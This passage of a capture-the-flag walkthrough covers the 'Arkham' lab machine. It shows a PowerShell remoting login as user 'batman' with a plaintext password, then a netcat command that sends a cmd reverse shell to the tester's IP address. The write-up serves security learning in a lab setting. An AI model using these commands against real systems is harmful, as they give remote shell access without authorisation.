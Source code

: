 ##### 5958 port is listening and also with information founded before, i understand that batman use WinRm, and with some research i figured out how to use it to have a session as batman.

PowerShell Remoting is essentially a native Windows remote command execution feature that’s build on top of the Windows Remote Management (WinRM) protocol.  Based on my super Google results, WinRM is supported by Windows Vista with Service Pack 1 or later, Windows 7, Windows Server 2008, and Windows Server 2012.

An interactive PowerShell console can be obtained on a remote system using the “Enter-PsSession” command.  It feels a little like SSH.  Similar to “Invoke-Command”, “Enter-PsSession” can be run as the current user or using alternative credentials from a non domain system.  Examples below.
#####  Examples of having session with powershell
```
Enter-PsSession –ComputerName '10.10.10.130' 
Enter-PsSession –ComputerName servername –Credentials domain\serveradmin
Enter-PsSession –ComputerName servername –Credentials $credentilas
```

In my case i did :
```
$username = 'batman';$password = 'Zx^#QZX+T!123';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username,$securePassword;Enter-PSSession -ComputerName arkham -Credential $credential;
```
![first_session](https://github.com/roughiz/Arkham-walktrough/blob/master/batmansession.png)

Now i have a session shell but it's a very limited session due to  UAC, the idea is to obtain an other shell with nc.exe. So lets found a folder which Batman have access. i used  icacls (dir and cd  dosen't work with uac rules).
Batman have access to 'C:\tomcat\apache-tomcat-8.5.37\bin\'   so i use nc.exe from it like :
```
> C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe 10.10.14.7 80 -e cmd
```
